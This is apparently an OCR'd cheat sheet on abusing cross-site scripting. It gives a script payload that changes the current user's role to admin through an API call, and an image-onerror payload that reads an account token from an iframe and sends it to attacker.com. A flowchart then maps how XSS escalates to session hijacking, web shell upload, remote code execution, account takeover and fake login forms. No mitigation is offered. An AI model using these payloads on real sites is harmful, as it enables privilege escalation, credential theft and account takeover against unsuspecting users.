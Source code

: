 # API Abuse:

```html
# Role Modification:
     <script>
     fetch('/api/users/current', {
       method: 'PATCH',
       headers: {'Content-Type':'application/json'},
       body: JSON.stringify({role:"admin"})
     })
     </script>
``` 

# Real-World Example:

```html
#Stealing OAuth Tokens:
 <img src=x onerror="
       const iframe = document.createElement('iframe');
       iframe.src = '/account';
       iframe.onload = () => {
         const token = iframe.contentWindow.document
           .querySelector('meta[name=token]').content;
         fetch('https://attacker.com/steal?token='+token);
       };
       document.body.appendChild(iframe);">
```

# Flowchart

```mermaid
flowchart TD

A[XSS Vulnerability Found] --> B[Session Hijacking]

A --> C[CSRF Attacks]

A --> D[Phishing Inside App]

A --> E[DOM Manipulation]

  

B --> B1[Steal Cookies]

B --> B2[Hijack Admin Sessions]

B2 --> B2a[Access Admin Dashboard]

B2a --> B2b[Upload Web Shell]

B2b --> B2c[RCE on Server]

  

C --> C1[Forge Requests]

C1 --> C2[Account Takeover]

  

D --> D1[Inject Fake Login Form]
```